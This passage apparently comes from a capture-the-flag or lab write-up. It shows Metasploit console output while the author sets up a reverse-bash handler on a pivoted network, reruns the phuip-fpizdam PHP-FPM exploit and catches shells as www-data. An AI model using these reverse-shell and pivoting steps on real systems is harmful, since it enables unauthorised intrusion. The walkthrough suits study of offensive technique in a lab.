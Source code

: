 ```
msf6 post(multi/manage/autoroute) > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set payload payload/cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/handler) > set lhost 192.168.254.2
lhost => 192.168.254.2
msf6 exploit(multi/handler) > set lport 7575
lport => 7575
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

msf6 exploit(multi/handler) > [*] Started reverse TCP handler on 192.168.254.2:7575 via the meterpreter on session 2
```

We might have to run `phuip-fpizdam` again since there is a cleanup script going. After this results in a sucess we can send our reverse shell from repeater by just spamming the send button until it hangs.

[![revshell_pki](/img/static/revshell_pki.png)](/img/static/revshell_pki.png)

Some of the command shell sessions might arrive invald as seen below but repeating the exploit it should lead to success soon and another stable session should be opened.

```
msf6 exploit(multi/handler) >
[-] Command shell session 3 is not valid and will be closed
[*] ::ffff:192.168.254.3 - Command shell session 3 closed.
[-] Command shell session 4 is not valid and will be closed
[*] ::ffff:192.168.254.3 - Command shell session 4 closed.

msf6 exploit(multi/handler) >
[-] Command shell session 5 is not valid and will be closed

msf6 exploit(multi/handler) > [*] ::ffff:192.168.254.3 - Command shell session 5 closed.

msf6 exploit(multi/handler) > [*] Command shell session 6 opened (::ffff:192.168.254.2:7575 -> ::ffff:192.168.254.3:37774) at 2021-06-20 09:05:45 +0000

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                                      Connection
  --  ----  ----                   -----------                                                      ----------
  1         meterpreter php/linux  www-data (33) @ web                                              172.30.0.8:4444 -> 172.30.0.1:48412 (172.20.0.10)
  2         meterpreter x64/linux  www-data @ web (uid=33, gid=33, euid=33, egid=33) @ 172.20.0.10  172.30.0.8:7575 -> 172.30.0.1:60536 (172.30.0.1)
  6         shell cmd/unix                                                                          ::ffff:192.168.254.2:7575 -> ::ffff:192.168.254.3:37774 (::ffff:192.168.254.3)

msf6 exploit(multi/handler) >
```